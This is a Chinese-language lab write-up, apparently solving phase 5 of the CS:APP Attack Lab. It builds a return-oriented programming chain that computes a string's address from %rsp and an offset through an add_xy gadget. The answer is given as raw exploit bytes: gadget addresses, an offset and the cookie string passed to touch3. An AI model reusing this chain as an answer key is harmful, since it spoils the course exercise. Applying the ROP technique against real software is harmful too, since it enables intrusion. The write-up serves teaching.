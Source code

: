 通过：

![](srcs/3-4.png)

### phase5

同 phase3 类似，但是由于栈随机化，我们无法准确获知栈中插入字符串的地址

`farm.c` 里特意给了一个：

```cpp
/* Add two arguments */
long add_xy(long x, long y)
{
    return x + y;
}
```

有详细注释的函数，猜测应该是需要通过 `%rsp` 寄存器和偏移量算出字符串地址

查看这个函数的汇编：

```asm
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	ret
```

因此我们需要设法把 `%rsp` 和偏移量放到 `%rdi` 和 `%rsi` 内，再把加法结果，即 `%rax` 值传到 `%rdi` 内，最后调用函数即可

注意到最后的移动过程是我们熟悉的（同 phase4），而为了避免栈分配时字符串值被更改，字符串应该放在最后

这样我们就得到了答案的最后几行：

```
a2 19 40 00 00 00 00 00     # movq
fa 18 40 00 00 00 00 00     # call touch3
35 39 62 39 39 37 66 61 00  # string
```

前面的寄存器移动过程凑配即可，这里略去具体凑配过程（比较重复）

```
06 1a 40 00 00 00 00 00     # rsp 给 rax
a2 19 40 00 00 00 00 00     # rax 给 rdi
83 13 40 00 00 00 00 00     # pop 给 rsi
30 00 00 00 00 00 00 00     # offset 值
d6 19 40 00 00 00 00 00     # 调用加法
```
